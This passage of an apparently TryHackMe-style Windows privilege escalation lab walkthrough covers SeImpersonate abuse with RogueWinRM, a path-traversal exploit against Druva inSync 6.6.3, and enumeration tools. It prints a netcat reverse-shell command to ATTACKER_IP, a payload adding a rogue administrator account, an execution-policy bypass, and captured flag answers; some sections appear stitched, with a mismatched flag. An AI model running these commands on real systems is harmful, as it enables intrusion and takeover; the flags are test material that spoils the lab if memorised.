

Now, if user Ann logs in to the FTP service and given that the ftp user has impersonation privileges, it can borrow Ann's access token and use it to access her files. This way, the files don't need to provide access to user `ftp` in any way, and the operating system handles authorisation. Since the FTP service is impersonating Ann, it won't be able to access Jude's or Bill's files during that session.

Thus,  if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.

In Windows systems, you will find that the LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have such privileges. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs.

We can elevate our privileges by doing the following:

1. Spawn a process so that users can connect and authenticate to it for impersonation to occur. 
2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

We can accomplish this by using RogueWinRM.

We assume we have already compromised a website running on IIS and that we have planted a web shell there.

We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:



Further, we need to upload the exploit (RogueWinRM) to the target.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

We can then trigger the RogueWinRM exploit in the webshell and generate a reverse shell to our machine:

```cmd
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. 
The `-a` parameter is used to pass arguments to the executable. 
Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.

### Questions

We chose to go with the second method:



After this we locked our screen and clicked on the "Ease of Access" button, which now runs `cmd.exe` instead of `utilman.exe`:



We navigate to Administrator's Desktop to get the flag:



Q: Get the flag on the Administrator's desktop.

A: `THM{SEFLAGPRIVILEGE}`

## Abusing vulnerable software

### Unpatched Software

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the `wmic` tool to list software installed on the target system and its versions.

```cmd
wmic product get name,version,vendor
```

Remember that the `wmic product` command may not return all installed programs. Thus always check desktop shortcuts, available services etc.

Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like [exploit-db(opens in new tab)](https://www.exploit-db.com/), [packet storm(opens in new tab)](https://packetstormsecurity.com/) or just Google.

### Case Study: Druva inSync 6.6.3

The target server is running Druva inSync 6.6.3, which is vulnerable to privilege escalation.

The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. RPC is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.

In the case of Druva inSync, one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command. Since the RPC server runs as SYSTEM, any command gets executed with SYSTEM privileges.

A patch was issued, where they decided to check that the executed command started with the string `C:\ProgramData\Druva\inSync4\`, where the allowed binaries were supposed to be. But then, this proved insufficient since you could simply make a path traversal attack to bypass this kind of control. Suppose that you want to execute `C:\Windows\System32\cmd.exe`, which is not in the allowed path; you could simply ask the server to run `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe` and that would bypass the check successfully.

The exploit has the following idea:



The first packet is simply a hello packet that contains a fixed string. The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us. The last two packets are used to send the length of the command and the command string to be executed, respectively.

The initial exploit script can be found  [here(opens in new tab)](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html).

We will change the payload to this:

```powershell
net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
```

We run the exploit, which successfully creates a user `pwnd` with the password `SimplePass123`, which is part of the administrators group:



We then open a `cmd.exe` as administrator and log in using the credentials of the `pwnd` user:



The flag is found on the Desktop:



### Questions

Q: Get the flag on the Administrator's desktop.

A: `THM{EZ_DLL_PROXY_4ME}`

## Tools of the Trade

Below are a few tools commonly used to identify privilege escalation vectors.

### WinPEAS

WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. You can find more information about winPEAS and download either the precompiled executable or a .bat script. WinPEAS will run commands similar to the ones listed in the previous task and print their output. The output from winPEAS can be lengthy and sometimes difficult to read. This is why it would be good practice to always redirect the output to a file

```
winpeas.exe > outputfile.txt
```

WinPEAS can be downloaded [here](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

### PrivescCheck

PrivescCheck is a PowerShell script that searches common privilege escalation on the target system. It provides an alternative to WinPEAS without requiring the execution of a binary file.

PrivescCheck can be downloaded [here(opens in new tab)](https://github.com/itm4n/PrivescCheck).

**Reminder**: To run PrivescCheck on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can use the `Set-ExecutionPolicy` cmdlet as shown below.

```powershell
Set-ExecutionPolicy Bypass -Scope process -Force 

. .\PrivescCheck.ps1

Invoke-PrivescCheck
```

### WES-NG: Windows Exploit Suggester - Next Generation

Some exploit suggesting scripts (e.g. winPEAS) will require you to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid making unnecessary noise that can attract attention, you may prefer to use WES-NG.

WES-NG is a Python script that can be found and downloaded [here(opens in new tab)](https://github.com/bitsadmin/wesng).

Once installed, and before using it, type the `wes.py --update` command to update the database. The script will refer to the database it creates to check for missing patches that can result in a vulnerability you can use to elevate your privileges on the target system.

To use the script, you will need to run the `systeminfo` command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine.

Once this is done, wes.py can be run as follows:

```bash
wes.py systeminfo.txt
```

### Metasploit

If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.

## Conclusion

To learn additional techniques, check out the following resources:

- [PayloadsAllTheThings - Windows Privilege Escalation(opens in new tab)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Priv2Admin - Abusing Windows Privileges(opens in new tab)](https://github.com/gtworek/Priv2Admin)
- [RogueWinRM Exploit(opens in new tab)](https://github.com/antonioCoco/RogueWinRM)
- [Potatoes(opens in new tab)](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
- [Decoder's Blog(opens in new tab)](https://decoder.cloud/)
- [Token Kidnapping(opens in new tab)](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)
- [Hacktricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
